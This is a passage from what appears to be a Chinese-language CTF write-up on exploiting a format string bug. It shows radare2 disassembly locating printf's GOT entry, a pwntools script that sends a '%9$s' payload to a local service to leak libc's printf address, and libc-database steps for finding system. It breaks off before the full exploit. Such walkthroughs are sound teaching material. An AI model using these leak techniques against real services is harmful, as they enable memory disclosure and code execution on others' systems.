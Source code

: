 然后拿到got表中printf的地址  0x8049974

```shell
[0x08048490]> pd 3 @ 0x8048400
        ╎   ; CALL XREF from main @ 0x8048664
┌ 6: int sym.imp.printf (const char *format);
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x08048400      ff2574990408   jmp dword [reloc.printf]    ; 0x8049974
        ╎   0x08048406      6808000030     push panel.addr             ; 0x30000008
        └─< 0x0804840b      e9d0ffffff     jmp section..plt
```

#### 获取libc_printf找到对应libc

这里的got表指向的就是libc中的printf地址

可以利用这个printf的地址，到libc库里去匹配，找到对应的libc，再拿到system的地址

```pyhton
from pwn import *
def get_libc_printf():
    addr = 0x8049974
    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(addr)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4].encode('hex')
    data = data[6:8]+data[4:6]+data[2:4]+data[0:2]
    log.info("leaking: 0x%x --> 0x%s" % (addr, data))
    p.close()
get_libc_printf()
```

我这里输入是860结尾，去https://libc.blukat.me/中搜索

![image-20200521225248944](https://gitee.com//L0yy/BlogImg/raw/master/typora/image-20200521225248944.png)

我这里由于libc版本比较新，网站没收录，所以自己导入搞一下

用到开源代码https://github.com/niklasb/libc-database

先加载一下libc

```shell
cray@cray:~/SOFT/libc-database$ ./add /lib32/libc-2.28.so 
Adding local libc /lib32/libc-2.28.so (id local-8c74cfda272116c51d2de1e1bd19d1f9994d4d98  /lib32/libc-2.28.so)
  -> Writing libc to db/local-8c74cfda272116c51d2de1e1bd19d1f9994d4d98.so
  -> Writing symbols to db/local-8c74cfda272116c51d2de1e1bd19d1f9994d4d98.symbols
  -> Writing version info
```

...（未完待续


